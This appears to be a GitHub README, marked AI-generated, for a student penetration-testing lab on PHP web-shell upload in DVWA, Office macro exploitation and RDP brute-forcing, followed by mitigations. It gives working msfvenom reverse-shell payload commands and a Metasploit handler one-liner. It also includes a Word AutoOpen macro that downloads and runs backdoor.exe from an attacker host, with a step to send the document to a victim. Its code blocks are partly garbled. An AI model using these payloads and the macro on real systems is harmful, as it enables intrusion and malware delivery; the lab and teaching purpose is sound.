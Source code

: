 # Penetration Testing Insights: RDP, Macro Exploits, and PHP Shell Upload
*A practical guide to understanding common cybersecurity vulnerabilities and mitigation strategies.*

---

## 📌 Overview  
This project demonstrates three critical cybersecurity exploitation techniques:  
1. **PHP Backdoor via File Upload Vulnerabilities** (using DVWA).  
2. **Macro-Based Exploitation in MS-Office**.  
3. **RDP Exploitation in Windows 11**.  

It also provides actionable mitigation strategies to defend against these attacks.  

---

## 🛠️ Prerequisites  
- **Tools**:  
  - Kali Linux (for Metasploit, msfvenom).  
  - DVWA (Damn Vulnerable Web Application).  
  - Microsoft Office (for macro testing).  
  - Python 3 (for RDP brute-force script).  
- **Basic Knowledge**:  
  - Familiarity with command-line tools.  
  - Understanding of ethical hacking principles.  

---

## 🔧 Setup Instructions  

### 1. PHP File Upload Exploitation (DVWA)  
- **Step 1**: Install DVWA and set security level to *"Low"*.  
- **Step 2**: Generate a PHP reverse shell payload:  
  ```bash
  msfvenom -p php/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=8000 -f raw > shell.php
Step 3: Upload shell.php to DVWA.

Step 4: Start Metasploit handler:

```bash
msfconsole -q -x "use exploit/multi/handler; set payload php/meterpreter/reverse_tcp; set LHOST <YOUR_IP>; set LPORT 8000; exploit"
```
- **Step 5**: Execute the uploaded file in DVWA to gain a reverse shell.

### 2. Macro-Based Exploitation (MS-Office)
- **Step 1**: Generate a malicious payload:

```bash

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=6666 -f exe > backdoor.exe
```

- **Step 2**: Host the payload on a local server (e.g., python3 -m http.server 8000).

- **Step 3**: Create a Word macro to download and execute backdoor.exe:


```bash
Sub AutoOpen()
  Shell "powershell -c Invoke-WebRequest http://<YOUR_IP>:8000/backdoor.exe -OutFile %Temp%\backdoor.exe; Start-Process %Temp%\backdoor.exe"
End Sub
```

- **Step 4**: Start the Metasploit handler (similar to Step 4 above).

- **Step 5**: Send the document to the victim. When macros are enabled, the payload executes.

### 3. RDP Exploitation (Brute-Force Attack)
- **Step 1**: Create a Python script (rdp_brute.py) to brute-force credentials (see code snippet below).

- **Step 2**: Run the script:

```bash
python3 rdp_brute.py
```

# Sample RDP brute-force script (replace IP, usernames, passwords)
```python
import subprocess

def check_rdp(host, username, password):
    # ... (refer to Figure 3.3.1 in the report for full code)
🛡️ Mitigation Strategies
For PHP Uploads:
```

- Validate file types (extension + MIME type).

- Store files outside the web root.

- Disable PHP execution in upload directories.

 ### For Macros:

- Disable macros by default.

- Use trusted digital signatures.

- Enable Protected View.

### For RDP:

- Enforce Multi-Factor Authentication (MFA).

-  Restrict RDP access via VPN/firewall.

- Apply security patches (e.g., BlueKeep).

## 📚 References
OWASP File Upload Guidelines

Microsoft RDP Security Advisory

Metasploit Documentation

### ⚠️ Disclaimer
This project is for educational purposes only. Always obtain proper authorization before testing systems.

🙏 Acknowledgments
Special thanks to N.M.I Raisul Bari (Daffodil International University) for guidance.


---

**How to Use This README**:  
1. Replace `<YOUR_IP>` with your local IP (use `ifconfig` or `ipconfig`).  
2. Ensure all tools (DVWA, Metasploit) are properly installed.  
3. Follow ethical guidelines—do not test on unauthorized systems.
This response is AI-generated, for reference only.
